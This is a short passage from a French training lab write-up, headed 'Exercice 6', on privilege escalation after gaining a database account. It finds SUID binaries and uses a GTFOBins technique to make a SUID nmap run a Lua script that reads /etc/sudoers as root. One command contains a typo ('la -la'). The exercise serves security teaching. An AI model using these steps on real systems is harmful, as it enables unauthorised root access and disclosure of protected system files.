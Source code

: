# Exercice 6

### Maintenant en possession d’un compte à la base de données – nous allons déployer une autre technique pour obtenir un accès root. 
- Trouvez un binaire que nous pouvons utiliser en tant que root (suid)
```bash	
cd /usr/bin
la -la
```
On trouve que nmap est un binaire suid.

- Trouvez une élévation possible sur https://gtfobins.github.io/ 
```bash
TF=$(mktemp)
echo 'local f=io.open("/etc/sudoers", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```